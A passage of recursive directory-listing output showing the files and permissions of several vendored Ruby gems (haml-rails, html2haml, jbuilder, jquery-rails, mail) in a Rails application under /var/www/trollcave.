-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 standard_ugly.haml
-rw-r--r-- 1 rails rails  269 Sep 16  2016 tag_parsing.haml
-rw-r--r-- 1 rails rails   94 Sep 16  2016 _text_area.haml
-rw-r--r-- 1 rails rails   98 Sep 16  2016 _text_area_helper.html.haml
-rw-r--r-- 1 rails rails   26 Sep 16  2016 very_basic.haml
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 whitespace_handling.haml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0:
total 52K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  153 Sep 16  2016 Appraisals
-rw-r--r--  1 rails rails  184 Sep 16  2016 Gemfile
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 gemfiles
-rw-r--r--  1 rails rails   58 Sep 16  2016 .gitignore
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 haml-rails.gemspec
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails  249 Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 2.4K Sep 16  2016 README.md
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails  296 Sep 16  2016 .travis.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/gemfiles:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  213 Sep 16  2016 rails_4_0.gemfile
-rw-r--r-- 1 rails rails  208 Sep 16  2016 rails_4_1.gemfile
-rw-r--r-- 1 rails rails  208 Sep 16  2016 rails_4_2.gemfile

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib:
total 28K
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 generators
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 haml-rails
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 haml-rails.rb
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 rails
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 tasks

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/generators:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 haml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/generators/haml:
total 20K
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 controller
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 mailer
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 scaffold

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/generators/haml/controller:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  303 Sep 16  2016 controller_generator.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/generators/haml/controller/templates:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   64 Sep 16  2016 view.html.haml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/generators/haml/mailer:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  986 Sep 16  2016 mailer_generator.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/generators/haml/mailer/templates:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   25 Sep 16  2016 layout.html.haml
-rw-r--r-- 1 rails rails    7 Sep 16  2016 layout.text.haml
-rw-r--r-- 1 rails rails   79 Sep 16  2016 view.html.haml
-rw-r--r-- 1 rails rails   76 Sep 16  2016 view.text.haml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/generators/haml/scaffold:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  882 Sep 16  2016 scaffold_generator.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/generators/haml/scaffold/templates:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  149 Sep 16  2016 edit.html.haml
-rw-r--r-- 1 rails rails  541 Sep 16  2016 _form.html.haml
-rw-r--r-- 1 rails rails  721 Sep 16  2016 index.html.haml
-rw-r--r-- 1 rails rails   96 Sep 16  2016 new.html.haml
-rw-r--r-- 1 rails rails  287 Sep 16  2016 show.html.haml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/haml-rails:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   58 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/rails:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 generators

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/rails/generators:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 haml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/rails/generators/haml:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 application_layout

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/rails/generators/haml/application_layout:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 application_layout_generator.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/lib/tasks:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 erb2haml.rake

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/test:
total 20K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 fixtures
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/test/fixtures:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 routes.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/test/lib:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 generators

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/test/lib/generators:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 haml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/haml-rails-0.9.0/test/lib/generators/haml:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  494 Sep 16  2016 controller_generator_test.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 mailer_generator_test.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 scaffold_generator_test.rb
-rw-r--r-- 1 rails rails   64 Sep 16  2016 testing_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/html2haml-2.0.0:
total 56K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-r--r--  1 rails rails  815 Sep 16  2016 Changelog.markdown
-rw-r--r--  1 rails rails   40 Sep 16  2016 Gemfile
-rw-r--r--  1 rails rails   79 Sep 16  2016 .gitignore
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 html2haml.gemspec
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 MIT-LICENSE
-rw-r--r--  1 rails rails  653 Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 3.7K Sep 16  2016 README.md
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails  164 Sep 16  2016 .travis.yml
-rw-r--r--  1 rails rails   18 Sep 16  2016 .yardopts

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/html2haml-2.0.0/bin:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  156 Sep 16  2016 html2haml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/html2haml-2.0.0/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 html2haml
-rw-r--r-- 1 rails rails  209 Sep 16  2016 html2haml.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/html2haml-2.0.0/lib/html2haml:
total 48K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 8.1K Sep 16  2016 exec.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 html
-rw-r--r-- 1 rails rails  18K Sep 16  2016 html.rb
-rw-r--r-- 1 rails rails   41 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/html2haml-2.0.0/lib/html2haml/html:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 5.6K Sep 16  2016 erb.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/html2haml-2.0.0/test:
total 40K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  11K Sep 16  2016 erb_test.rb
-rw-r--r-- 1 rails rails 9.4K Sep 16  2016 html2haml_test.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 jruby
-rw-r--r-- 1 rails rails  409 Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/html2haml-2.0.0/test/jruby:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  455 Sep 16  2016 erb_test.rb
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 html2haml_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jbuilder-2.3.2:
total 72K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  998 Sep 16  2016 Appraisals
-rw-r--r--  1 rails rails 9.1K Sep 16  2016 CHANGELOG.md
-rw-r--r--  1 rails rails 2.9K Sep 16  2016 CONTRIBUTING.md
-rw-r--r--  1 rails rails  105 Sep 16  2016 Gemfile
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 gemfiles
-rw-r--r--  1 rails rails   51 Sep 16  2016 .gitignore
-rw-r--r--  1 rails rails  587 Sep 16  2016 jbuilder.gemspec
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 MIT-LICENSE
-rw-r--r--  1 rails rails  510 Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 6.4K Sep 16  2016 README.md
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails  796 Sep 16  2016 .travis.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jbuilder-2.3.2/gemfiles:
total 36K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  265 Sep 16  2016 rails_3_0.gemfile
-rw-r--r-- 1 rails rails  265 Sep 16  2016 rails_3_1.gemfile
-rw-r--r-- 1 rails rails  265 Sep 16  2016 rails_3_2.gemfile
-rw-r--r-- 1 rails rails  249 Sep 16  2016 rails_4_0.gemfile
-rw-r--r-- 1 rails rails  249 Sep 16  2016 rails_4_1.gemfile
-rw-r--r-- 1 rails rails  249 Sep 16  2016 rails_4_2.gemfile
-rw-r--r-- 1 rails rails  326 Sep 16  2016 rails_edge.gemfile

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jbuilder-2.3.2/lib:
total 28K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 generators
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 jbuilder
-rw-r--r-- 1 rails rails 8.5K Sep 16  2016 jbuilder.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jbuilder-2.3.2/lib/generators:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 rails

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jbuilder-2.3.2/lib/generators/rails:
total 20K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 jbuilder_generator.rb
-rw-r--r-- 1 rails rails  306 Sep 16  2016 scaffold_controller_generator.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jbuilder-2.3.2/lib/generators/rails/templates:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 api_controller.rb
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 controller.rb
-rw-r--r-- 1 rails rails  227 Sep 16  2016 index.json.jbuilder
-rw-r--r-- 1 rails rails   82 Sep 16  2016 show.json.jbuilder

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jbuilder-2.3.2/lib/jbuilder:
total 40K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  131 Sep 16  2016 blank.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 dependency_tracker.rb
-rw-r--r-- 1 rails rails  385 Sep 16  2016 errors.rb
-rw-r--r-- 1 rails rails  187 Sep 16  2016 jbuilder.rb
-rw-r--r-- 1 rails rails 5.0K Sep 16  2016 jbuilder_template.rb
-rw-r--r-- 1 rails rails  685 Sep 16  2016 key_formatter.rb
-rw-r--r-- 1 rails rails  876 Sep 16  2016 railtie.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jbuilder-2.3.2/test:
total 56K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 jbuilder_dependency_tracker_test.rb
-rw-r--r-- 1 rails rails 1010 Sep 16  2016 jbuilder_generator_test.rb
-rw-r--r-- 1 rails rails 9.6K Sep 16  2016 jbuilder_template_test.rb
-rw-r--r-- 1 rails rails  16K Sep 16  2016 jbuilder_test.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 scaffold_api_controller_generator_test.rb
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 scaffold_controller_generator_test.rb
-rw-r--r-- 1 rails rails  268 Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jquery-rails-4.0.5:
total 64K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 6.9K Sep 16  2016 CHANGELOG.md
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 CONTRIBUTING.md
-rw-r--r--  1 rails rails  124 Sep 16  2016 Gemfile
-rw-r--r--  1 rails rails  117 Sep 16  2016 .gitignore
-rw-r--r--  1 rails rails  921 Sep 16  2016 jquery-rails.gemspec
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails 2.0K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 2.3K Sep 16  2016 README.md
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails  319 Sep 16  2016 .travis.yml
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 vendor
-rw-r--r--  1 rails rails 2.4K Sep 16  2016 VERSIONS.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jquery-rails-4.0.5/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 jquery
-rw-r--r-- 1 rails rails   22 Sep 16  2016 jquery-rails.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jquery-rails-4.0.5/lib/jquery:
total 24K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 4.3K Sep 16  2016 assert_select.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 rails
-rw-r--r-- 1 rails rails  153 Sep 16  2016 rails.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jquery-rails-4.0.5/lib/jquery/rails:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   82 Sep 16  2016 engine.rb
-rw-r--r-- 1 rails rails  155 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jquery-rails-4.0.5/test:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 assert_select_jquery_test.rb
-rw-r--r-- 1 rails rails  152 Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jquery-rails-4.0.5/vendor:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 assets

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jquery-rails-4.0.5/vendor/assets:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 javascripts

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/jquery-rails-4.0.5/vendor/assets/javascripts:
total 1000K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 242K Sep 16  2016 jquery2.js
-rw-r--r-- 1 rails rails  83K Sep 16  2016 jquery2.min.js
-rw-r--r-- 1 rails rails 125K Sep 16  2016 jquery2.min.map
-rw-r--r-- 1 rails rails 278K Sep 16  2016 jquery.js
-rw-r--r-- 1 rails rails  94K Sep 16  2016 jquery.min.js
-rw-r--r-- 1 rails rails 139K Sep 16  2016 jquery.min.map
-rw-r--r-- 1 rails rails  20K Sep 16  2016 jquery_ujs.js

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3:
total 100K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  39K Sep 16  2016 CHANGELOG.rdoc
-rw-r--r--  1 rails rails 2.9K Sep 16  2016 CONTRIBUTING.md
-rw-r--r--  1 rails rails  164 Sep 16  2016 Dependencies.txt
-rw-r--r--  1 rails rails  316 Sep 16  2016 Gemfile
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 MIT-LICENSE
-rw-r--r--  1 rails rails  643 Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails  21K Sep 16  2016 README.md
-rw-r--r--  1 rails rails  425 Sep 16  2016 TODO.rdoc

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 mail
-rw-r--r--  1 rails rails 2.2K Sep 16  2016 mail.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail:
total 240K
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 3.3K Sep 16  2016 attachments_list.rb
-rw-r--r--  1 rails rails 9.3K Sep 16  2016 body.rb
-rw-r--r--  1 rails rails  740 Sep 16  2016 check_delivery_params.rb
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 configuration.rb
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 constants.rb
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 core_extensions
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 elements
-rw-r--r--  1 rails rails  930 Sep 16  2016 elements.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 encodings
-rw-r--r--  1 rails rails 8.9K Sep 16  2016 encodings.rb
-rw-r--r--  1 rails rails  648 Sep 16  2016 envelope.rb
-rw-r--r--  1 rails rails  837 Sep 16  2016 field_list.rb
-rw-r--r--  1 rails rails 7.7K Sep 16  2016 field.rb
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 fields
-rw-r--r--  1 rails rails 2.2K Sep 16  2016 fields.rb
-rw-r--r--  1 rails rails 8.9K Sep 16  2016 header.rb
-rw-r--r--  1 rails rails 3.8K Sep 16  2016 indifferent_hash.rb
-rw-r--r--  1 rails rails 8.5K Sep 16  2016 mail.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 matchers
-rw-r--r--  1 rails rails  67K Sep 16  2016 message.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 multibyte
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 multibyte.rb
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 network
-rw-r--r--  1 rails rails  721 Sep 16  2016 network.rb
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 parsers
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 parsers.rb
-rw-r--r--  1 rails rails 3.1K Sep 16  2016 part.rb
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 parts_list.rb
-rw-r--r--  1 rails rails 5.8K Sep 16  2016 utilities.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 values
-rw-r--r--  1 rails rails  203 Sep 16  2016 version.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 version_specific

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/core_extensions:
total 28K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  231 Sep 16  2016 nil.rb
-rw-r--r--  1 rails rails  185 Sep 16  2016 object.rb
-rw-r--r--  1 rails rails  641 Sep 16  2016 smtp.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 string
-rw-r--r--  1 rails rails  918 Sep 16  2016 string.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/core_extensions/string:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.7K Sep 16  2016 access.rb
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 multibyte.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/elements:
total 60K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 address_list.rb
-rw-r--r--  1 rails rails 7.3K Sep 16  2016 address.rb
-rw-r--r--  1 rails rails  564 Sep 16  2016 content_disposition_element.rb
-rw-r--r--  1 rails rails  384 Sep 16  2016 content_location_element.rb
-rw-r--r--  1 rails rails  353 Sep 16  2016 content_transfer_encoding_element.rb
-rw-r--r--  1 rails rails  587 Sep 16  2016 content_type_element.rb
-rw-r--r--  1 rails rails  410 Sep 16  2016 date_time_element.rb
-rw-r--r--  1 rails rails  942 Sep 16  2016 envelope_from_element.rb
-rw-r--r--  1 rails rails  442 Sep 16  2016 message_ids_element.rb
-rw-r--r--  1 rails rails  367 Sep 16  2016 mime_version_element.rb
-rw-r--r--  1 rails rails  286 Sep 16  2016 phrase_list.rb
-rw-r--r--  1 rails rails  473 Sep 16  2016 received_element.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/encodings:
total 36K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  543 Sep 16  2016 7bit.rb
-rw-r--r--  1 rails rails  566 Sep 16  2016 8bit.rb
-rw-r--r--  1 rails rails  620 Sep 16  2016 base64.rb
-rw-r--r--  1 rails rails  575 Sep 16  2016 binary.rb
-rw-r--r--  1 rails rails  979 Sep 16  2016 quoted_printable.rb
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 transfer_encoding.rb
-rw-r--r--  1 rails rails  297 Sep 16  2016 unix_to_unix.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/fields:
total 148K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 bcc_field.rb
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 cc_field.rb
-rw-r--r--  1 rails rails 1.3K Sep 16  2016 comments_field.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 common
-rw-r--r--  1 rails rails  389 Sep 16  2016 content_description_field.rb
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 content_disposition_field.rb
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 content_id_field.rb
